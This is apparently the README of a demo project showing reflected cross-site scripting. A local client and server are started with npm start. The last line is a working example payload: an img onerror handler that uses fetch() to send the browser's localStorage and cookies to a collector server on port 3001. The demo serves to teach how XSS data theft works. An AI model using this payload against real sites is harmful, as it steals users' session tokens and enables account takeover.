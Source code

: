 ## Available Scripts

### Server

In the project directory server, you can run:

#### `npm start`

The server listens on port 3001


### Client

In the project directory client, you can run:

#### `npm start`

Open [http://localhost:3000](http://localhost:3000) to view it in the browser.

Example attack: http://localhost:3000/?text=<img src onerror="fetch(`http://localhost:3001?localStorage=${JSON.stringify(localStorage)}&cookie=${JSON.stringify(document.cookie)}`).then(data => data.json()).then(data => console.log('server response', data))" />

Check console for the response from server
